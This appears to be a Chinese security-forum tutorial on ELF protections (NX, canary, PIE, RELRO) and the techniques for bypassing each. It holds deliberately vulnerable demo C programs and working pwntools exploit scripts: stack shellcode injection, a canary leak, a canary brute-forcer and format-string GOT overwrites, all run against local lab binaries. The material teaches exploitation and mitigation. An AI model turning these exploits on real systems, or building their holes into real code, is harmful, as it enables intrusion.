








ELF 文件保护策略及应对技巧

- - -

# ELF 文件保护策略及应对技巧

前面的几篇文章我们介绍了一些二进制文件的攻击手法，有攻便有防，这篇文章就来介绍一些文件保护策略

前面安装 pwntools 附带的 checksec 就是用于查看 ELF 文件保护的

范例

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123234015-b4637018-ba05-1.png)

附带保护编译命令

```plain
NX：-z execstack / -z noexecstack (关闭 / 开启)    
Canary：-fno-stack-protector /-fstack-protector / -fstack-protector-all (关闭 / 开启 / 全开启)  
PIE：-no-pie / -pie (关闭 / 开启)   
RELRO：-z norelro / -z lazy / -z now (关闭 / 部分开启 / 完全开启)
```

## 一、NX(noexecstack;栈不可执行)

### 内容

NX 保护也叫栈不可执行保护，字面意思，就是在栈上不能执行机器码，也就是无法通过在栈上布置 shellcode 执行攻击。

由于目前的环境来说二进制漏洞中栈溢出漏洞的占比是最多的，而之前在没有 NX 保护时，只要往栈上写入一个 shellcode 并返回就能很容易且高效的拿到 shell，导致了许多的安全漏洞，所以有了 NX 保护。

当操作系统加载一个 ELF 文件时，它会设置 MMU 中的相应位，标记数据段为不可执行。这样，即使恶意代码成功注入到数据段中，CPU 也会拒绝在该段上执行代码。

虽然在目前为止，有了非常多的不依靠 shellcode 的栈攻击，nx 保护的保护效果到现在已经非常微小了，但是它仍然是最基础和重要的保护之一

演示：

demo 程序

```plain
#include<stdio.h>
#include<stdlib.h>


void init()
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
}

int main()
{
init();
char a[0x10];
printf("%p\n",a);
read(0,a,0x100);
    return 0;
}
```

编译命令：

```plain
gcc -o test2 -z noexecstack -fno-stack-protector -no-pie -z lazy demo.c
gcc -o test1 -z execstack -fno-stack-protector -no-pie -z lazy demo.c
#noexecstack 代表开启 NX，
```

写入 shellcode 的利用脚本：

```plain
from pwn import*
context.arch='amd64'
io = process('./test1')
#io = process('./test2')
stack = int(io.recv(14),16)
shellcode = asm(shellcraft.sh())
gdb.attach(io)
pause()
io.sendline(b'a'*0x18+p64(stack+0x20)+shellcode)

io.interactive()
```

首先看 text1

利用 gdb 调试到我们返回 shellcode 的位置

我们可以看到，程序很轻易的就执行了栈上输入的 shellcode

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123233934-9b94bf2e-ba05-1.png)

然后我们将程序改为 test2 继续动调

一开始很顺利，但是当我们返回到栈上的 shellcode 时，出现了报错

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123233929-98fe3b64-ba05-1.png)

会发现程序遇到了终止信号，cpu 拒绝了执行此 shellcode

### 应对技巧

应对开启了 NX 保护的程序有两种思路

#### 1.利用其他攻击技巧劫持返回地址

由于 NX 只禁用了在栈上执行 shellcode，而许多攻击都是不用写 shellcode 的，NX 在这些攻击面前自然是形同虚设

#### 2.利用劫持权限赋予函数来提权

常见的权限赋予函数 chmod、mprotect、memset 等函数都能改变区域权限，如果能劫持这些函数给栈提权，便可以执行栈中 shellcode 了

#### 3.寻找其他可执行段

有些程序会调用上述的函数赋予其他段可执行权限，此时可以通过向可执行段中写入 shellcode 并返回执行

## 二、canary

参考来源：[Canary - CTF Wiki (ctf-wiki.org)](https://ctf-wiki.org/pwn/linux/user-mode/mitigation/canary/)

### 介绍

Canary 的意思是金丝雀，来源于英国矿井工人用来探查井下气体是否有毒的金丝雀笼子。工人们每次下井都会带上一只金丝雀。如果井下的气体有毒，金丝雀由于对毒性敏感就会停止鸣叫甚至死亡，从而使工人们得到预警。

我们知道，通常栈溢出的利用方式是通过溢出存在于栈上的局部变量，从而让多出来的数据覆盖 ebp、eip 等，从而达到劫持控制流的目的。栈溢出保护是一种缓冲区溢出攻击缓解手段，当函数存在缓冲区溢出攻击漏洞时，攻击者可以覆盖栈上的返回地址来让 shellcode 能够得到执行。当启用栈保护后，函数开始执行的时候会先往栈底插入 cookie 信息，当函数真正返回的时候会验证 cookie 信息是否合法 (栈帧销毁前测试该值是否被改变)，如果不合法就停止程序运行 (栈溢出发生)。攻击者在覆盖返回地址的时候往往也会将 cookie 信息给覆盖掉，导致栈保护检查失败而阻止 shellcode 的执行，避免漏洞利用成功。在 Linux 中我们将 cookie 信息称为 Canary。

由于 stack overflow 而引发的攻击非常普遍也非常古老，相应地一种叫做 Canary 的 mitigation 技术很早就出现在 glibc 里，直到现在也作为系统安全的第一道防线存在。

Canary 不管是实现还是设计思想都比较简单高效，就是插入一个值在 stack overflow 发生的高危区域的尾部。当函数返回之时检测 Canary 的值是否经过了改变，以此来判断 stack/buffer overflow 是否发生。

Canary 与 Windows 下的 GS 保护都是缓解栈溢出攻击的有效手段，它的出现很大程度上增加了栈溢出攻击的难度，并且由于它几乎并不消耗系统资源，所以现在成了 Linux 下保护机制的标配。

### Canary 实现原理

开启 Canary 保护的 stack 结构大概如下：

```plain
High
        Address |                 |
                +-----------------+
                | args            |
                +-----------------+
                | return address  |
                +-----------------+
        rbp =>  | old ebp         |
                +-----------------+
      rbp-8 =>  | canary value    |
                +-----------------+
                | local variables |
        Low     |                 |
        Address
```

当程序启用 Canary 编译后，在函数序言部分会取 fs 寄存器 0x28 处的值，存放在栈中 %ebp-0x8 的位置。这个操作即为向栈中插入 Canary 值，代码如下：

```plain
mov    rax, qword ptr fs:[0x28]
mov    qword ptr [rbp - 8], rax
```

在函数返回之前，会将该值取出，并与 fs:0x28 的值进行异或。如果异或的结果为 0，说明 Canary 未被修改，函数会正常返回，这个操作即为检测是否发生栈溢出。

```plain
mov    rdx,QWORD PTR [rbp-0x8]
xor    rdx,QWORD PTR fs:0x28
je     0x4005d7 <main+65>
call   0x400460 <__stack_chk_fail@plt>
```

如果 Canary 已经被非法修改，此时程序流程会走到 `__stack_chk_fail`。`__stack_chk_fail` 也是位于 glibc 中的函数，默认情况下经过 ELF 的延迟绑定，定义如下。

```plain
eglibc-2.19/debug/stack_chk_fail.c

void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}

void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```

这意味可以通过劫持 `__stack_chk_fail` 的 got 值劫持流程或者利用 `__stack_chk_fail` 泄漏内容 (参见 stack smash)。

进一步，对于 Linux 来说，fs 寄存器实际指向的是当前栈的 TLS 结构，fs:0x28 指向的正是 stack\_guard。

```plain
typedef struct
{
  void *tcb;        /* Pointer to the TCB.  Not necessarily the
                       thread descriptor used by libpthread.  */
  dtv_t *dtv;
  void *self;       /* Pointer to the thread descriptor.  */
  int multiple_threads;
  uintptr_t sysinfo;
  uintptr_t stack_guard;
  ...
} tcbhead_t;
```

如果存在溢出可以覆盖位于 TLS 中保存的 Canary 值那么就可以实现绕过保护机制。

事实上，TLS 中的值由函数 security\_init 进行初始化。

```plain
static void
security_init (void)
{
  // _dl_random 的值在进入这个函数的时候就已经由 kernel 写入。
  // glibc 直接使用了_dl_random 的值并没有给赋值
  // 如果不采用这种模式，glibc 也可以自己产生随机数

  //将_dl_random 的最后一个字节设置为 0x0
  uintptr_t stack_chk_guard = _dl_setup_stack_chk_guard (_dl_random);

  // 设置 Canary 的值到 TLS 中
  THREAD_SET_STACK_GUARD (stack_chk_guard);

  _dl_random = NULL;
}

//THREAD_SET_STACK_GUARD 宏用于设置 TLS
#define THREAD_SET_STACK_GUARD(value) \
  THREAD_SETMEM (THREAD_SELF, header.stack_guard, value)
```

### Canary 绕过

#### 泄露栈中的 Canary

Canary 设计为以字节 `\x00` 结尾是为了保证 Canary 可以截断字符串。泄露栈中的 Canary 的思路是覆盖 Canary 的低字节，来打印出剩余的 Canary 部分。这种利用方式需要存在合适的输出函数，并且可能需要第一溢出泄露 Canary，之后再次溢出控制执行流程。

举个栗子：

存在漏洞的示例源代码如下：

```plain
// ex2.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
void getshell(void) {
    system("/bin/sh");
}
void init() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}
void vuln() {
    char buf[100];
    for(int i=0;i<2;i++){
        read(0, buf, 0x200);
        printf(buf);
    }
}
int main(void) {
    init();
    puts("Hello Hacker!");
    vuln();
    return 0;
}
```

编译为 32bit 程序并关闭 PIE 保护（默认开启 NX，ASLR，Canary 保护）

```plain
$ gcc -m32 -no-pie ex2.c -o ex2
```

首先通过覆盖 Canary 最后一个 `\x00` 字节来打印出 4 位的 Canary 之后，计算好偏移，将 Canary 填入到相应的溢出位置，实现 Ret 到 getshell 函数中

```plain
#!/usr/bin/env python

from pwn import *

context.binary = 'ex2'
#context.log_level = 'debug'
io = process('./ex2')

get_shell = ELF("./ex2").sym["getshell"]

io.recvuntil("Hello Hacker!\n")

# leak Canary
payload = b"A"*100
io.sendline(payload)

io.recvuntil(b"A"*100)
Canary = u32(io.recv(4))-0xa
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = b"\x90"*100+p32(Canary)+b"\x90"*12+p32(get_shell)
io.send(payload)

io.interactive()
```

同时其中还有一个格式化字符串漏洞，因为 canary 是加载到栈中的，那么通过格式化字符串的%p参数利用可以泄露出栈中的 canary 值

#### 爆破 Canary

对于 Canary，虽然每次进程重启后的 Canary 不同 (相比 GS，GS 重启后是相同的)，但是同一个进程中的不同线程的 Canary 是相同的，并且 通过 fork 函数创建的子进程的 Canary 也是相同的，因为 fork 函数会直接拷贝父进程的内存。我们可以利用这样的特点，彻底逐个字节将 Canary 爆破出来。这是爆破的 Python 代码：

```plain
print "[+] Brute forcing stack canary "

start = len(p)
stop = len(p)+8

while len(p) < stop:
   for i in xrange(0,256):
      res = send2server(p + chr(i))

      if res != "":
         p = p + chr(i)
         #print "\t[+] Byte found 0x%02x" % i
         break

      if i == 255:
         print "[-] Exploit failed"
         sys.exit(-1)


canary = p[stop:start-1:-1].encode("hex")
print "   [+] SSP value is 0x%s" % canary
```

#### 劫持 \_\_stack\_chk\_fail 函数

Canary 匹配失败后会进入到 `__stack_chk_fail` 函数，`__stack_chk_fail` 函数是一个普通的延迟绑定函数，可以通过修改其 GOT 表劫持这个函数从而使匹配失败后能够劫持其运行从而实现攻击。

#### 覆盖 TLS 中储存的 Canary 值

Canary 是储存在 TLS 结构体中的，在函数返回前会使用这个值进行对比。当溢出尺寸较大时，可以同时覆盖栈上储存的 Canary 和 TLS 储存的 Canary 实现绕过。

可以参考这篇文章：[TLS\_bypass\_Canary](https://xz.aliyun.com/t/13074?time__1311=mqmxnDBDuDcAiQQDsD7mN0%3DWG%3Dn5%2BDkkTrrD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fnode%2F23)

## 三、PIE

### 介绍

PIE（Position Independent Executable）保护是一种用于防止恶意攻击的安全措施。它通过将可执行文件加载到内存时的地址随机化，使得攻击者无法准确预测代码和数据的位置，从而增加了攻击者对系统的攻击难度。

让我们编译一个有 PIE 和无 PIE 的程序来看看（编译指令在开头）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123233914-8ff0e4cc-ba05-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123233910-8d7c3cb4-ba05-1.png)

可以很明显看出解析后所得地址的位数有变化

并且如果重新进入一次程序的话

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123233906-8af3881c-ba05-1.png)

会发现地址变化了（相对偏移不变），这就造成了我们无法准确的找到需要的返回地址来劫持了

### 绕过方法

绕过 PIE 有两种方法

#### 1.泄露 PIE 基地址

因为程序各段的相对偏移是不变的，所以只要我们能够泄露某个地址的真实地址，那么便可以根据偏移得到所有的真实地址，这点和 ret2libc 的技巧是相同的

泄露地址的方法有格式化字符串泄露、\\x00 覆盖泄露等

#### 2.低位覆盖 + 爆破

有时在程序调试时我们可以发现程序本来要返回的地址和我们想要劫持成的地址只差了最后几位的偏移位（固定值）不同或者只有 1~2 位是未知的，那么我们就能通过将低位覆盖成目的地址的**后几位位偏移**或者是**低位覆盖 + 爆破未知位**从而劫持返回地址

## 四、RELRO

### 介绍

RELRO（RELocation Read-Only）是一种用于增强程序安全性的保护机制。RELRO 保护旨在防止攻击者利用动态链接器的一些漏洞来修改程序的全局偏移表（GOT）和过程链接表（PLT），从而执行恶意代码或者获取程序的控制权。

RELRO 保护的主要作用是在程序启动时将动态链接器的一些关键数据结构标记为只读，以防止攻击者利用这些结构进行恶意修改。RELRO 保护通常分为两种类型：Partial RELRO 和 Full RELRO。

Partial RELRO 将动态链接器的一部分数据结构标记为只读，包括全局偏移表（GOT）的一部分。这种保护方式可以防止一些简单的攻击，但仍然存在一定的风险。

Full RELRO 将动态链接器的所有关键数据结构都标记为只读，包括全局偏移表（GOT）和过程链接表（PLT）。这种保护方式提供了更高的安全性，可以有效地防止动态链接器相关的攻击。

举个栗子：

在上面 canary 保护绕过中就有一个方法是劫持 `__stack_chk_fail` 函数的 got 表，若程序开启了 Full RELRO 保护，那么 GOT 表就无法被修改，从而无法进行 GOT 劫持攻击

还有就是 ret2dlresolve，同样是通过 GOT 工作来劫持 link map 以达到攻击目的，在开启了 Full RELRO 后便也失效了

### 保护效果

编写两个分别是 Partial RELRO 和 Full RELRO 的程序

demo

```plain
#include<stdio.h>
#include<stdlib.h>


void init()
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
}

int main()
{
init();
char a[0x30];
printf("%p\n",a);
read(0,a,0x30);
printf(a);
    return 0;
}
```

编译

```plain
gcc -o test1 -z noexecstack -fno-stack-protector -no-pie -z lazy ct18.c
gcc -o test2 -z noexecstack -fno-stack-protector -no-pie -z now ct18.c
```

test1 利用脚本如下

```plain
from pwn import*
context.arch='amd64'
io = process('./test1')
gdb.attach(io)
pause()
read_got = 0x404020 
payload = '%'+str(0x66)+'c%8$hhn'
pay = payload.ljust(0x10,'\x00')
pay+=p64(read_got)
io.sendline(pay)

io.interactive()
```

更改 read 的 got 表低两位为 66

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123233839-7ada7eea-ba05-1.png)

test2

```plain
from pwn import*
context.arch='amd64'
io = process('./test2')
gdb.attach(io)
pause()
read_got = 0x403FE8 
payload = '%'+str(0x66)+'c%8$hhn'
pay = payload.ljust(0x10,'\x00')
pay+=p64(read_got)
io.sendline(pay)

io.interactive()
```

动调后可发现报错：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123233818-6e857834-ba05-1.png)

### 应对技巧

#### 劫持其他可写区域

不止是 GOT 上存储了偏移，程序中其他的可写区域中也会存储一些，例如 stdin、stdout、stderr 结构体，它们存储在 bss 段上，可以劫持这些结构来进行攻击

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123233808-6876b0a2-ba05-1.png)

适用于一些需要构造泄露，开启了 `Full RELRO` 但是没有输出函数的程序，此时无法使用 ret2dlresolve 攻击，那么我们只能通过计算偏移、低位覆盖或是 magic\_gadget 等方式来强行构造出一个输出函数来进行之后的操作

详情可以看这两篇文章：

[FULL RELRO 下的低位覆盖](https://xz.aliyun.com/t/12731?time__1311=mqmhDvOGOYGKDsD7GG7DyYx9Y%3DS2pTpID&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fu%2F66399)

[magic\_gadget 总结及利用 1](https://xz.aliyun.com/t/12975?time__1311=mqmhqIhD7KGKDsdYYK0%3DdG%3DdwPpEiD0rD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fnode%2F13)
